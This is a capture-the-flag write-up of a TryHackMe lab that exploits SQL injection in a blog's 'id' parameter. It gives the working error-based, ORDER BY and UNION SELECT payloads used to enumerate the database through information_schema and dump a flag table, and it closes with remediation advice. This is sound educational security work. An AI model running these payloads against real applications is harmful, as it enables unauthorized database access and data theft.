



# SQL Injection (TryHackMe)

## Overview
This write-up documents the process used to identify and exploit an SQL Injection vulnerability in the `id` parameter of a blog application. The objective was to enumerate the database structure and retrieve the hidden flag.

The vulnerability was initially confirmed through **Error-based SQL Injection behaviour**, then exploited further using **UNION-based SQL injection** to enumerate the database and extract the flag.

## Target
`http://10.128.140.130`



## 1. Confirming SQL Injection
initial request:
```
http://10.128.140.130/post?id=1
```
Test payload:
```
http://10.128.140.130/post?id=1'
```
Response:
```
You have an error in your SQL syntax...
```

### Conclusion
The single quote caused a SQL syntax error, indicating that user input is not properly sanitized and the parameter is vulnerable to SQL Injection.

## 2. Determining the Number of Columns
To identify how many columns are used in the original query, `ORDER BY` values were tested incrementally.

Payloads tested:
```
http://10.128.140.130/post?id=1 ORDER BY 1
http://10.128.140.130/post?id=1 ORDER BY 2
http://10.128.140.130/post?id=1 ORDER BY 3
http://10.128.140.130/post?id=1 ORDER BY 4
```
Result: All requests loaded normally.

Then tested:
```
http://10.128.140.130/post?id=1 ORDER BY 5
```
Result: Error returned.

### Explanation
`ORDER BY` sorts results using the selected column number. If the requested column number is higher than the number of columns in the query, the database throws an error.
Since columns `1` through `4` worked, but column 5 failed, the original query contains **4 columns**.

## 3. Testing UNION Injection
After identifying that the query uses 4 columns, a UNION SELECT statement with 4 values was tested.

Payload:
```
http://10.128.140.130/post?id=1 UNION SELECT 1,2,3,4
```
Results: No error.

### Explanation
A UNION query requires the same number of columns as the original query. The successful response confirmed that 4 columns were correct.
The numeric values were used as markers to determine which columns were reflected in the page output.

### Conclusion
UNION-based SQL Injection is possible using 4 columns.

## 4. Identifying the Database Name
Once UNION Injection was confirmed, a database function was inserted into one of the reflected columns to display the current database name.

Payload:
```
http://10.128.140.130/post?id=0 UNION SELECT 1,2,database(),4
```

### Why use `id=0`?
This forces the original query to return no matching rows. As a result, only the injected UNION SELECT data is displayed, making enumeration cleaner and easier to read.

Result:
```
sqhell_5
```



## 5. Enumerating Tables
After discovering the database name, the next step was to list all tables stored inside that database.

Payload:
```
http://10.128.140.130/post?id=0 UNION SELECT 1,2,group_concat(table_name),4 FROM information_schema.tables WHERE table_schema='sqhell_5'
```

Result:
```
flag,post,users
```

### Explanation
The `information_schema.tables` table stores metadata about all tables in mySQL databases.
Among the results, the `flag` table appeared to be the most relevant target.

## 6. Enumerating Columns in the `flag` Table
After identifying the target table, the next step was to enumerate its columns.

Payload:
```
http://10.128.140.130/post?id=0 UNION SELECT 1,2,group_concat(column_name),4 FROM information_schema.columns WHERE table_name='flag'
```

Result:
```
flag,id
```

### Explanation
The `information_schema.columns` table stores column names for all tables.
### Columns Found
- `flag`
- `id`

## 7. Extracting the Flag
With the table and column names identified, the final step was to dump the contents of the `flag` table.

Payload:
```
http://10.128.140.130/post?id=0 UNION SELECT 1,2,group_concat(flag,':',id SEPARATOR '<br>'),4 FROM flag
```

Result:
```
THM{FLAG5:***************}:1
```

### Explanation
`group_concat()` was used to combine rows into a single visible output. The `:` separator was added to distinguish the flag value from the row ID.



## Skills Demonstrated
- SQL Injection Detection
- Column count Enumeration
- UNION SELECT Exploitation
- Database Enumeration
- UNION-Based SQL Injection

## Lessons Learned
- Error messages can reveal valuable backend information.
- UNION SELECT requires matching column counts.
- Input validation and prepared statements prevent SQL Injection

## Remediation
- validate numeric input
- Disable verbose SQL errors in production
- Apply least privilege to database users
- Use parameterized queries

## Disclaimer
This activity was performed in a legal, controlled TryHackMe lab environment for educational purposes only.
